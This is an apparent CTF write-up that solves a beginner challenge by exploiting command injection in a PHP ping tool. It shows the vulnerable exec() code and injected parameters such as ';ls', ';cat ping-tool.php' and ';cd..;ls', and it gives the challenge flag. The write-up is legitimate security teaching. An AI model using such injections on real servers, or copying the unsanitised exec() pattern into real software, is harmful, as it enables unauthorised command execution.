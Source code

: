 Title: RyanCTF Input Validation
Date: 2018-7-27 10:01
Modified: 2018-7-27 10:01
Category: ctf
Tags: ctf
Slug: ryanCTF_inputValidation
Authors: F3real
Summary: How to solve RyanCTF Input Validation

Ryan CTF is nicely organized beginner CTF located at [http://ctf.ryanic.com/](http://ctf.ryanic.com/). Challenges are pretty interesting, with only thing I disliked being that they are played through web shell. So let’s start:

**(Ab)use the ping-tool.html page on the web server [http://ctf.ryanic.com:8080](http://ctf.ryanic.com:8080) to find the flag within the Flag.txt file.**

When we open the site, we see just a simple form asking us for IP we want to ping. Parameters are passed in GET request so if we wanted to ping google DNS our URL would look like

```http://ctf.ryanic.com:8080/ping-tool.php?ip=8.8.8.8```

Now one of basic things (as hinted by challenge name) is to test command injection which we can do by adding ;ls and checking the results:
```
ING 8.8.8.8 (8.8.8.8) 56(84) bytes of data. 
64 bytes from 8.8.8.8: icmp_seq=1 ttl=51 time=1.08 ms 
64 bytes from 8.8.8.8: icmp_seq=2 ttl=51 time=0.493 ms 
64 bytes from 8.8.8.8: icmp_seq=3 ttl=51 time=0.399 ms 
64 bytes from 8.8.8.8: icmp_seq=4 ttl=51 time=0.418 ms 
 
--- 8.8.8.8 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3042ms 
rtt min/avg/max/mdev = 0.399/0.598/1.085/0.284 ms 
index.php 
logo.png 
ping-tool.html 
ping-tool.php 
secret.html 
test.txt 
x.txt
```

Now for fun we can also leak the code of this .php script running on the server with

```http://ctf.ryanic.com:8080/ping-tool.php?ip=8.8.8.8;cat+ping-tool.php```

Here it is just important to note that we need to URL encode parameters so for example in case above `space` is replaced by `+` .

And we get:
~~~php
<?
$out = array();
exec("ping -c 4 " . $_GET["ip"], $out);
foreach($out as $line) {
echo "$line
";
}
?> 
~~~

Now for remaining part, we need to find flag. We can do this just trough browser but also we can do it through **burp**, to make it easier and it is good tool to know.

We need to capture one of request we send to server and forward it to repeater, in this way we can quickly modify parameters of request and URL encode them. For this we just need to start burp, turn the intercept on and set browser to use proxy (in case of burp `localhost` on the port `8080` by default).

First I tried running find for flag, which failed for some reason so I decided to simply check directories bellow our current one.

![ping ls]({static}/images/2018_8_27_Ping.png){: .img-fluid .centerimage}


Parameters of request if URL decoded are simply `;cd..;ls`. And it seems we were in luck since Flag.txt is just one sub-directory bellow. We simply `cat Flag.txt` and that’s it.

`Flag: pluripresence`